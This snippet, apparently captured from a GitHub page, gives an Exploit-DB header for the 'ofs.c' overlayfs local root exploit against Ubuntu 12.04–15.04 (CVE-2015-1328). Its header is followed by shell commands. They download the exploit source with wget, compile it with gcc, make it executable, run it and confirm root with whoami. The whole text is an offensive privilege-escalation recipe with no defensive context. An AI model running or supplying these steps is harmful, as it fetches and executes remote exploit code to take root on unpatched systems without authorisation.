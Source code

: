 # Exploit Title: ofs.c - overlayfs local root in ubuntu
# Date: 2015-06-15
# Exploit Author: rebel
# Version: Ubuntu 12.04, 14.04, 14.10, 15.04 (Kernels before 2015-06-15)
# Tested on: Ubuntu 12.04, 14.04, 14.10, 15.04
# CVE : CVE-2015-1328     (http://people.canonical.com/~ubuntu-security/cve/2015/CVE-2015-1328.html)
# https://www.exploit-db.com/exploits/37292

wget https://www.exploit-db.com/download/37292 -O ofs.c
gcc ofs.c -o ofs
chmod +x ofs
./ofs
whoami
